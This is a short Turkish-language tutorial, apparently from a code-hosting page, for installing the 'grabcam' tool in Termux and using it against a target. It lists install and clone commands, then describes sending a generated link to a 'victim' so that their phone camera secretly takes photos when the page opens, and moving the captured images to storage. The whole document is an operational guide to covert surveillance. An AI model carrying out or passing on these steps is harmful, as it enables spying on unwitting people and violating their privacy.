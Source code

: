 1) apt-get update -y
2) apt-get upgrade -y
3) pkg install python -y
4) pkg install python2 -y
5) pkg install git -y
6) pip install lolcat
7) git clone https://github.com/noob-hackers/grabcam
ls
8) cd grabcam
ls
10) bash grabcam.sh
EVET KARŞIMIZA GRABCAM YAZILI EKRAN GELDİ
KOD SORUYOR VE BURAYA 02 YAZICAZ YAZMADAN ÖNCE MOBİL Veriyi ve HOTSPOT'U(internet paylaşımı) UNUTMAYINIZ
OLUŞTURDUKTAN SONRA İSE ŞU BÖLÜME SAYFAMIZ GELİYOR
VE KURBANIMIZA YOLLUYOR GİRDİGİ ZAMAN FOTOĞRAF ÇEKMEYE BAŞLIYOR. VE ŞU YAZI GELİYOR (Cam file received!)
ÇEKTİGİ FOTOLARI GÖRMEK İÇİN İSE
Ctrl+C YAPIP ÇIKIYORUZ
SONRA İSE ls KOMUTUNU YAZIYORUZ VE .png OLAN FOTOGRAFIN İSMİNİ KOPYALIYORUZ SONRA İSE ŞU KODU YAZIYORUZ
mv helloboys.png /sdcard
VE DOSYALARIMIZA GELİYOR

(Direct link:helloboys.io <-mesela )

LİNKİ OLUŞTURURKEN MOBİL VERİYİ VE HOTSPOT(paylaşım) AÇMANIZ LAZIM.
